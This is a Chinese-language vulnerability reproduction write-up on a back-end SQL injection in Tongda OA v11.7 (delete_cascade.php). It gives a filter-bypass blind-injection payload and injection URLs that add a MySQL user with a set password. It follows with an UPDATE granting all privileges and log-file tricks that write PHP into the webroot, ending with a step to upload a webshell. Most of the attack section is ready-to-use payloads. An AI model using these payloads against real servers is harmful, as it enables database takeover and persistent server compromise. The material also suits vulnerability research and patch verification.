





# 通达OA v11.7 delete_cascade.php 后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.7</a-checkbox></br>

## 环境搭建

<a-checkbox checked>环境地址: https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe</a-checkbox></br>

## 漏洞复现

在 `general/hr/manage/query/delete_cascade.php` 文件中


首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

`inc/common.inc.php` 代码




使用盲注对SQL注入进行测试





触发了通达OA的SQL注入拦截

`inc/conn.php`文件中找到过滤机制如下:


其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：


```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```








添加SQL数据库用户


```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```


访问 `http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*


进入 `Myoa/mysql5/bin` 目录 执行 `mysql -upeiqi -p` 输入密码查询所有用户


发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：


```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```


然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限




登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell


```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php phpinfo();?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php phpinfo();?>';
show variables like '%general%';
```


上传大马

